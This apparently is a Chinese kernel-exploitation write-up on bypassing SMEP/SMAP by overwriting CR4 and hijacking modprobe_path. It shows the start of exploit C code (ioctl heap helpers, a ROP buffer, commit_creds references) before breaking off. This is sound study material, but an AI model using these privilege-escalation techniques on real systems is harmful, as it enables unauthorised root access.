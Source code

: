 ```yaml
---
layout: post
title: "kernel heap bypass smep,smap && 劫持modprobe_path"
date: "2022-05-15T01:51:45.580Z"
---
```

kernel heap bypass smep,smap && 劫持modprobe\_path
================================================

kernel heap bypass smep,smap && 劫持modprobe\_path
================================================

### `exp1`

`smep`:smep即用户数据不可执行，当 CPU 处于 `ring0` 模式时，执行用户空间的代码会触发页错误，系统根据`CR4`寄存器的第`20`位判断内核是否开启`smep`，为1时开启，为0时关闭（第21位是SMAP位）。  
`smap`:smap用户数据不可访问。

通过控制`cr4`寄存器为`0x6f0`即可绕过。

    #include <stdio.h>
    #include <stdlib.h>
    #include <stdint.h>
    #include <unistd.h>
    #include <fcntl.h>
    #include <sys/ioctl.h>
    
    size_t vmlinux_base, off, commit_creds, prepare_kernel_cred;
    size_t user_cs, user_ss, user_sp, user_rflags;
    size_t raw_vmlinux_base = 0xffffffff81000000;
    size_t rop[0x100] = {0};
    
    int fd;
    
    struct Heap{
        size_t index;
        char *data;
        size_t len;
        size_t offset;
    };
    
    void add(int index, size_t len, char *data)
    {
    	struct Heap heap;
    	heap.index = index;
    	heap.data = data;
    	heap.len = len;
    	ioctl(fd, 0x30000, &heap);
    }
    
    void delete(int index)
    {
    	struct Heap heap;
    	heap.index = index;
    	ioctl(fd, 0x30001, &heap);
    }
    